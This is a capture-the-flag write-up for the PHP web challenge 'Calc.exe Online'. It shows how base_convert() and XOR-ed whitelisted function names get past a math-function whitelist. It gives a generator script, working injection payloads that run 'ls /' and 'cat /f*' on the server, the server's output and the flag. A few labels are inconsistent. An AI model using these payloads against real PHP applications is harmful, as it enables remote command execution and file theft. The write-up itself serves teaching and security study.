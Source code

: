 ## Calc.exe Online
> **Category:** Web
> **Description:** 
> **Pad Link:** http://34.87.94.220/pad/web-calcexe-online
> **Flag:** flag{d0_y0u_kn0w_th1s_15_a_rea1_w0rld_cha11enge}
---

## References
* https://www.anquanke.com/post/id/220813
* https://www.php.net/manual/en/function.base-convert.php
* https://www.php.net/manual/en/function.dechex.php

## Exploit Ideas
We can use Base-36 to insert arbitrary alphanumeric characters, allowing us to bypass the whitelisting by using `base_convert()` PHP [function](https://www.php.net/manual/en/function.base-convert.php).

```
# Example
base_convert(1751504350,10,36) -> system
base_convert(784,10,36)        -> ls
```

However, in order to insert symbols, we need to make further use of the whitelisted math functions. Let's include the use of primitive operations such as XOR (`^`).

> Note that operations are done using `string` datatype.

The idea is, we will pass in a XOR'd decimal value to be XOR'd again on the server end using the whitelisted math functions.

```
"a"^"a"     -> 0
"a"^"x"^"a" -> "x"

# Extending the logic to use those math functions instead, where $i and $k are the whitelisted functions:
$k^$i^"x"^$i^$k -> "x"
```

The following script generates a list of combined functions along with the string `" /"`:

```php
<?php
	$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
	$whitelist2 = [ 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh','abs'];

	foreach ($whitelist as $i):
		foreach ($whitelist2 as $k):
		echo $k^$i^" /";
		echo "   " . $i . " " . $k;
		echo "<br/>";
		endforeach;
	endforeach;
?>
```

Producing the output to produce the string `" /"`:
```
...
25 sin asin
25 sin asinh
22 sin atan2
22 sin atan
22 sin atanh
...
```

Remember that the challenge restricts us to use the whitelisted functions only, so we can use the `dechex()` [function](https://www.php.net/manual/en/function.dechex.php). This means that the first column in the output must be representable in hexadecimal form.

Finally, we can combine what we have so far to run the command `system(cat /)`:
```
base_convert(1751504350,10,36)  -> system
base_convert(784,10,36)         -> ls
dechex(34)^sin^atanh            -> " /"

# Into:
base_convert(1751504350,10,36)(base_convert(784,10,36).(dechex(34)^sin^atanh))
```

This results in the server's response to be:
```
bin boot dev etc flag_a2647e5eb8e9e767fe298aa012a49b50 home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var var
```

Thus the flag file is revealed to be in the root directory.

Now, we have to change the command to `cat` instead. Also, we need to target the flag file. Let's do the process to get the `"f*"` string, which we can concatenate into `" /f*"`.

> A caveat is that we can only specify 2 characters at a time (so we need to combine the payloads)



```
base_convert(1751504350,10,36) 	-> system
base_convert(784,10,36) 		-> cat
dechex(34)^sin^atanh			-> " /"
dechex(242)^sinh^sqrt			-> "f*"

# Into:
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(34)^sin^atanh).(dechex(242)^sinh^sqrt))
```

Which gives us the flag: `flag{d0_y0u_kn0w_th1s_15_a_rea1_w0rld_cha11enge}`

## Scripts

Used for generating a list of white-listed functions XOR'd with the string to generate:
```php
<?php
	$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
	$whitelist2 = [ 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh','abs'];

	foreach ($whitelist as $i):
		foreach ($whitelist2 as $k):
		echo $k^$i^" /";
		echo "   " . $i . " " . $k;
		echo "<br/>";
		endforeach;
	endforeach;
?>
```